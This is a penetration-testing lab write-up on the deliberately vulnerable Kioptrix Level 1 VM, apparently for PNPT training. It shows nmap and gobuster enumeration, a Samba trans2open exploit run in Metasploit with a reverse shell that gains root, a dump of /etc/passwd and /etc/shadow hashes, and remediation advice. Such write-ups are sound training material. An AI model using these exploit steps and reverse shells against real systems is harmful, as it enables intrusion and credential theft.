

KIOPTRIX
BASIC ENUMERATION
NMAP
//command
nmap -T4 -p- -A 192.168.0.100
//another one is
rustscan -a -- -A 192.168.0.100┌──(kali㉿kali)-[~/Desktop/PNPT/Lab1]
└─$ nmap -T4 -p- -A 192.168.0.100
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-23 01:23 EDT
Nmap scan report for 192.168.0.100
Host is up (0.0017s latency).
Not shown: 65529 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey:
| 1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
| 1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_ 1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp open http Apache httpd 1.3.20 ((Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-server-header: Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| http-methods:
|_ Potentially risky methods: TRACE
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp open rpcbind 2 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2 111/tcp rpcbind
| 100000 2 111/udp rpcbind
| 100024 1 32768/tcp status
|_ 100024 1 32768/udp status
139/tcp open netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp open ssl/https Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_ssl-date: 2025-10-23T09:24:01+00:00; +4h00m00s from scanner time.
|_http-server-header: Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
| sslv2:
| SSLv2 supported
| ciphers:
| SSL2_RC4_128_EXPORT40_WITH_MD5
| SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
| SSL2_RC4_64_WITH_MD5
| SSL2_RC4_128_WITH_MD5
| SSL2_DES_64_CBC_WITH_MD5
| SSL2_RC2_128_CBC_WITH_MD5
|_ SSL2_DES_192_EDE3_CBC_WITH_MD5
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26T09:32:06
|_Not valid after: 2010-09-26T09:32:06
32768/tcp open status 1 (RPC #100024)
MAC Address: 08:00:27:1A:02:22 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Network Distance: 1 hop
Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: 3h59m59s
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
TRACEROUTE
HOP RTT ADDRESS
1 1.74 ms 192.168.0.100
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.89 seconds
┌──(kali㉿kali)-[~/Desktop/PNPT/Lab1]
└─$
GHOBUSTER
//.command
gobuster dir -u http://192.168.0.100 -w /usr/share/wordlists/dirb/common.txt -t 40 -o gobuster_http.txt/.hta (Status: 403) [Size: 268]
/.htaccess (Status: 403) [Size: 273]
/.htpasswd (Status: 403) [Size: 273]
/~operator (Status: 403) [Size: 273]
/~root (Status: 403) [Size: 269]
/cgi-bin/ (Status: 403) [Size: 272]
/index.html (Status: 200) [Size: 2890]
/manual (Status: 301) [Size: 294] [--> http://127.0.0.1/manual/]
/mrtg (Status: 301) [Size: 292] [--> http://127.0.0.1/mrtg/]
/usage (Status: 301) [Size: 293] [--> http://127.0.0.1/usage/]PAGE


NESSUS
FINDINGS
From nmap
- operating system is Linux 2.4.9 - 2.4.18
- OS CPE: cpe:/o:linux:linux_kernel:2.4
- open ports
| port | service | version | notes |
| 22/tcp | SSH | OpenSSH 2.9p2 (protocol 1.99) | |
| 80/tcp | HTTP | Apache/1.3.20 (Unix) | Apache/1.3.20 with mod_ssl 2.8.4 (OpenSSL 0.9.6b) is affected by heap overflow vulnerabilities (CVE-2002-0656) allowing remote root compromise. |
| 111/tcp | RPC | rpcbind 2 (RPC #100000) | |
| 139/tcp | netbios-ssn Samba smbd | netbios-ssn Samba smbd | smb2 |
| 443/tcp | HTTPS | Apache/1.3.20 with mod_ssl 2.8.4 / OpenSSL 0.9.6b | Deprecated SSL version allowing weak ciphers like RC4_40 and DES_64_CBC_MD5. Subject to POODLE and DROWN attacks. |
| 32768/tcp | RPC STATUS |
EXPLOITATION
METASPLOIT
┌──(kali㉿kali)-[~]
└─$ searchsploit samba 2.2
------------------------------------------------------------------ ---------------------------------
Exploit Title | Path
------------------------------------------------------------------ ---------------------------------
Samba 2.0.x/2.2 - Arbitrary File Creation | unix/remote/20968.txt
Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit) | osx/remote/9924.rb
Samba 2.2.2 < 2.2.6 - 'nttrans' Remote Buffer Overflow (Metasploi | linux/remote/16321.rb
Samba 2.2.8 (BSD x86) - 'trans2open' Remote Overflow (Metasploit) | bsd_x86/remote/16880.rb
Samba 2.2.8 (Linux Kernel 2.6 / Debian / Mandrake) - Share Privil | linux/local/23674.txt
Samba 2.2.8 (Linux x86) - 'trans2open' Remote Overflow (Metasploi | linux_x86/remote/16861.rb
Samba 2.2.8 (OSX/PPC) - 'trans2open' Remote Overflow (Metasploit) | osx_ppc/remote/16876.rb
Samba 2.2.8 (Solaris SPARC) - 'trans2open' Remote Overflow (Metas | solaris_sparc/remote/16330.rb
Samba 2.2.8 - Brute Force Method Remote Command Execution | linux/remote/55.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (1) | unix/remote/22468.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (2) | unix/remote/22469.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (3) | unix/remote/22470.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (4) | unix/remote/22471.txt
Samba 2.2.x - 'nttrans' Remote Overflow (Metasploit) | linux/remote/9936.rb
Samba 2.2.x - CIFS/9000 Server A.01.x Packet Assembling Buffer Ov | unix/remote/22356.c
Samba 2.2.x - Remote Buffer Overflow | linux/remote/7.pl
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution | multiple/remote/10.c
Samba < 3.0.20 - Remote Heap Overflow | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC) | linux_x86/dos/36741.py
------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
┌──(kali㉿kali)-[~]
└─$
┌──(kali㉿kali)-[~]
└─$ ping 192.168.0.101
PING 192.168.0.101 (192.168.0.101) 56(84) bytes of data.
64 bytes from 192.168.0.101: icmp_seq=1 ttl=255 time=0.579 ms
64 bytes from 192.168.0.101: icmp_seq=2 ttl=255 time=1.09 ms
^C
--- 192.168.0.101 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1031ms
rtt min/avg/max/mdev = 0.579/0.832/1.086/0.253 ms
┌──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: Network adapter names can be used for IP options set LHOST
eth0
`:oDFo:`
./ymM0dayMmy/.
-+dHJ5aGFyZGVyIQ==+-
`:sm⏣~~Destroy.No.Data~~s:`
-+h2~~Maintain.No.Persistence~~h+-
`:odNo2~~Above.All.Else.Do.No.Harm~~Ndo:`
./etc/shadow.0days-Data'%20OR%201=1--.No.0MN8'/.
-++SecKCoin++e.AMd` `.-://///+hbove.913.ElsMNh+-
-~/.ssh/id_rsa.Des- `htN01UserWroteMe!-
:dopeAW.No<nano>o :is:TЯiKC.sudo-.A:
:we're.all.alike'` The.PFYroy.No.D7:
:PLACEDRINKHERE!: yxp_cmdshell.Ab0:
:msf>exploit -j. :Ns.BOB&ALICEes7:
:---srwxrwx:-.` `MS146.52.No.Per:
:<script>.Ac816/ sENbove3101.404:
:NT_AUTHORITY.Do `T:/shSYSTEM-.N:
:09.14.2011.raid /STFU|wall.No.Pr:
:hevnsntSurb025N. dNVRGOING2GIVUUP:
:#OUTHOUSE- -s: /corykennedyData:
:$nmap -oS SSo.6178306Ence:
:Awsm.da: /shMTl#beats3o.No.:
:Ring0: `dDestRoyREXKC3ta/M:
:23d: sSETEC.ASTRONOMYist:
/- /yo- .ence.N:(){ :|: & };:
`:Shall.We.Play.A.Game?tron/
```-ooy.if1ghtf0r+ehUser5`
..th3.H1V3.U2VjRFNN.jMh+.`
`MjM~~WE.ARE.se~~MMjMs
+~KANSAS.CITY's~-`
J~HAKCERS~./.`
.esc:wq!:`
+++ATH`
`
=[ metasploit v6.4.64-dev ]
+ -- --=[ 2519 exploits - 1296 auxiliary - 431 post ]
+ -- --=[ 1610 payloads - 49 encoders - 13 nops ]
+ -- --=[ 9 evasion ]
Metasploit Documentation: https://docs.metasploit.com/
msf6 > search trans2open
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/freebsd/samba/trans2open 2003-04-07 great No Samba trans2open Overflow (*BSD x86)
1 exploit/linux/samba/trans2open 2003-04-07 great No Samba trans2open Overflow (Linux x86)
2 exploit/osx/samba/trans2open 2003-04-07 great No Samba trans2open Overflow (Mac OS X PPC)
3 exploit/solaris/samba/trans2open 2003-04-07 great No Samba trans2open Overflow (Solaris SPARC)
4 \_ target: Samba 2.2.x - Solaris 9 (sun4u) - Bruteforce . . . .
5 \_ target: Samba 2.2.x - Solaris 7/8 (sun4u) - Bruteforce . . . .
Interact with a module by name or index. For example info 5, use 5 or use exploit/solaris/samba/trans2open
After interacting with a module you can manually set a TARGET with set TARGET 'Samba 2.2.x - Solaris 7/8 (sun4u) - Bruteforce'
msf6 > use 1
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/samba/trans2open) > options
Module options (exploit/linux/samba/trans2open):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS yes The target host(s), see https://docs.metasploit.com/docs/usi
ng-metasploit/basics/using-metasploit.html
RPORT 139 yes The target port (TCP)
Payload options (linux/x86/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST 192.168.0.100 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Samba 2.2.x - Bruteforce
View the full module info with the info, or info -d command.
msf6 exploit(linux/samba/trans2open) > set RHOSTS 192.168.0.101
RHOSTS => 192.168.0.101
msf6 exploit(linux/samba/trans2open) > set payload linux/x86/
msf6 exploit(linux/samba/trans2open) > set payload linux/x86/
set payload linux/x86/adduser
set payload linux/x86/chmod
set payload linux/x86/exec
set payload linux/x86/meterpreter/bind_ipv6_tcp
set payload linux/x86/meterpreter/bind_ipv6_tcp_uuid
set payload linux/x86/meterpreter/bind_nonx_tcp
set payload linux/x86/meterpreter/bind_tcp
set payload linux/x86/meterpreter/bind_tcp_uuid
set payload linux/x86/meterpreter/reverse_ipv6_tcp
set payload linux/x86/meterpreter/reverse_nonx_tcp
set payload linux/x86/meterpreter/reverse_tcp
set payload linux/x86/meterpreter/reverse_tcp_uuid
set payload linux/x86/metsvc_bind_tcp
set payload linux/x86/metsvc_reverse_tcp
set payload linux/x86/read_file
set payload linux/x86/shell/bind_ipv6_tcp
set payload linux/x86/shell/bind_ipv6_tcp_uuid
set payload linux/x86/shell/bind_nonx_tcp
set payload linux/x86/shell/bind_tcp
set payload linux/x86/shell/bind_tcp_uuid
set payload linux/x86/shell/reverse_ipv6_tcp
set payload linux/x86/shell/reverse_nonx_tcp
set payload linux/x86/shell/reverse_tcp
set payload linux/x86/shell/reverse_tcp_uuid
set payload linux/x86/shell_bind_ipv6_tcp
set payload linux/x86/shell_bind_tcp
set payload linux/x86/shell_bind_tcp_random_port
set payload linux/x86/shell_reverse_tcp
set payload linux/x86/shell_reverse_tcp_ipv6
msf6 exploit(linux/samba/trans2open) > set payload linux/x86/shell_reverse_tcp_ipv6
payload => linux/x86/shell_reverse_tcp_ipv6
msf6 exploit(linux/samba/trans2open) > exploit
[-] 192.168.0.101:139 - Exploit failed: invalid address:
[*] Exploit completed, but no session was created.
msf6 exploit(linux/samba/trans2open) > show options
Module options (exploit/linux/samba/trans2open):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS 192.168.0.101 yes The target host(s), see https://docs.metasploit.com/docs/usi
ng-metasploit/basics/using-metasploit.html
RPORT 139 yes The target port (TCP)
Payload options (linux/x86/shell_reverse_tcp_ipv6):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST 192.168.0.100 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Samba 2.2.x - Bruteforce
View the full module info with the info, or info -d command.
msf6 exploit(linux/samba/trans2open) > set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
msf6 exploit(linux/samba/trans2open) > exploit
[*] Started reverse TCP handler on 192.168.0.100:4444
[*] 192.168.0.101:139 - Trying return address 0xbffffdfc...
[*] 192.168.0.101:139 - Trying return address 0xbffffcfc...
[*] 192.168.0.101:139 - Trying return address 0xbffffbfc...
[*] Command shell session 1 opened (192.168.0.100:4444 -> 192.168.0.101:32773) at 2025-11-02 15:54:48 -0500
[*] Command shell session 2 opened (192.168.0.100:4444 -> 192.168.0.101:32774) at 2025-11-02 15:54:49 -0500
[*] Command shell session 3 opened (192.168.0.100:4444 -> 192.168.0.101:32775) at 2025-11-02 15:54:50 -0500
[*] Command shell session 4 opened (192.168.0.100:4444 -> 192.168.0.101:32776) at 2025-11-02 15:54:51 -0500
whoami
root
id
uid=0(root) gid=0(root) groups=99(nobody)
SERVER ENUMERATION
here we have gained root now to get the enumertion
[*] Command shell session 8 opened (192.168.0.100:4444 -> 192.168.0.101:32780) at 2025-11-02 16:07:09 -0500
whoami
root
id
uid=0(root) gid=0(root) groups=99(nobody)
hostname
kioptrix.level1
uname -a
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
cat etc/passwd
cat: etc/passwd: No such file or directory
cat /etc/issue
Welcome to Kioptrix Level 1 Penetration and Assessment Environment
--The object of this game:
|_Acquire "root" access to this machine.
There are many ways this can be done, try and find more then one way to
appreciate this exercise.
netstat -tulnp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 0.0.0.0:32768 0.0.0.0:* LISTEN 584/rpc.statd
tcp 0 0 0.0.0.0:139 0.0.0.0:* LISTEN 919/smbd
tcp 0 0 0.0.0.0:111 0.0.0.0:* LISTEN 556/portmap
tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN 921/httpd
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN 752/sshd
tcp 0 0 127.0.0.1:25 0.0.0.0:* LISTEN 826/sendmail: accep
tcp 0 0 0.0.0.0:443 0.0.0.0:* LISTEN 921/httpd
udp 0 0 0.0.0.0:32768 0.0.0.0:* 584/rpc.statd
udp 0 0 127.0.0.1:32769 0.0.0.0:* 1358/sh
udp 0 0 127.0.0.1:32770 0.0.0.0:* 1359/sh
udp 0 0 127.0.0.1:32771 0.0.0.0:* 1360/sh
udp 0 0 127.0.0.1:32772 0.0.0.0:* 1361/sh
udp 0 0 127.0.0.1:32773 0.0.0.0:* 1389/sh
udp 0 0 127.0.0.1:32774 0.0.0.0:* 1390/sh
udp 0 0 127.0.0.1:32775 0.0.0.0:* 1391/sh
udp 0 0 127.0.0.1:32776 0.0.0.0:* 1392/sh
udp 0 0 192.168.0.101:137 0.0.0.0:* 917/nmbd
udp 0 0 0.0.0.0:137 0.0.0.0:* 917/nmbd
udp 0 0 192.168.0.101:138 0.0.0.0:* 917/nmbd
udp 0 0 0.0.0.0:138 0.0.0.0:* 917/nmbd
udp 0 0 0.0.0.0:111 0.0.0.0:* 556/portmap
udp 0 0 0.0.0.0:760 0.0.0.0:* 584/rpc.statd
sudo -l
User root may run the following commands on this host:
(ALL) ALL
LISTENING SERVICE
tcp 0 0 0.0.0.0:32768 LISTEN 584/rpc.statd
tcp 0 0 0.0.0.0:139 LISTEN 919/smbd
tcp 0 0 0.0.0.0:111 LISTEN 556/portmap
tcp 0 0 0.0.0.0:80 LISTEN 921/httpd
tcp 0 0 0.0.0.0:22 LISTEN 752/sshd
tcp 0 0 0.0.0.0:443 LISTEN 921/httpd
...
cat /etc/passwd
postgres:x:26:26:PostgreSQL Server:/var/lib/pgsql:/bin/bash
apache:x:48:48:Apache:/var/www:/bin/false
squid:x:23:23::/var/spool/squid:/dev/null
pcap:x:77:77::/var/arpwatch:/bin/nologin
john:x:500:500::/home/john:/bin/bash
harold:x:501:501::/home/harold:/bin/bash
cat /etc/shadow
root:$1$XROmcfDX$tF93GqnLHOJeGRHpaNyIs0:14513:0:99999:7:::
john:$1$zL4.MR4t$26N4YpTGceBO0gTX6TAky1:14513:0:99999:7:::
harold:$1$Xx6dZdOd$IMOGACl3r757dv17LZ9010:14513:0:99999:7::LOCAL USERS
Local users (/etc/passwd — excerpt)
root:x:0:0:root:/root:/bin/bash
john:x:500:500::/home/john:/bin/bash
harold:x:501:501::/home/harold:/bin/bash
apache:x:48:48:Apache:/var/www:/bin/falseHASHED PASSWORDS
root:$1$XROmcfDX$tF93GqnLHOJeGRHpaNyIs0:14513:0:99999:7:::
john:$1$zL4.MR4t$26N4YpTGceBO0gTX6TAky1:14513:0:99999:7:::
harold:$1$Xx6dZdOd$IMOGACl3r757dv17LZ9010:14513:0:99999:7::RECOMENDATIONS
Impact assessment
- Confidentiality: Full — attacker can read any file (including
/etc/shadow, private keys, user data).
- Integrity: Full — attacker can modify system binaries, create backdoors, or change configurations.
- Availability: High risk — attacker can stop/start services, delete files, or cause disruption.
- Lateral movement: Possible — discovery of SSH keys, credentials or writable NFS could be used to pivot to other hosts.
Given the environment (old kernel, legacy services, weak/old crypto), the system is trivially exploitable and should be considered fully compromised.
Remediation recommendations (medium/long-term)es.
- Patch/upgrade software:
- Upgrade kernel to a supported LTS release.
- Upgrade Apache to 2.4.x, disable SSLv2 and SSLv3, enforce TLS 1.2/1.3.
- Upgrade OpenSSL to a recent secure version.
- Upgrade Samba to a secure release; disable SMBv1 if not needed.
- Harden services:
- Disable unnecessary services (portmapper/rpc if not required).
- Restrict SSH to protocol version 2 and use key-based auth + MFA.
- Disable unsafe HTTP methods (TRACE).
- Remove legacy SUID scripts or replace them with safer, non-SUID alternatives; run
rpm -V/dpkg -Vto detect altered packages.
- Implement network segmentation & egress filtering to limit outbound connections and reduce blast radius.
- Enable logging & central collection (syslog/SIEM) and monitor for suspicious process creations, unexpected outbound connections, and new user accounts.
- Regular patch management & vulnerability scanning to prevent reintroduction of vulnerabilities.
- Credential hygiene: reset any exposed credentials, rotate keys, and review SSH authorized_keys.
Full command log (excerpt)
(Selected commands that were executed during the session)
whoami
id
hostname
uname -a
cat /etc/passwd
cat /etc/shadow
cat /etc/issue
netstat -tulnp
sudo -l
find / -perm -4000 2>/dev/null
ps aux | grep root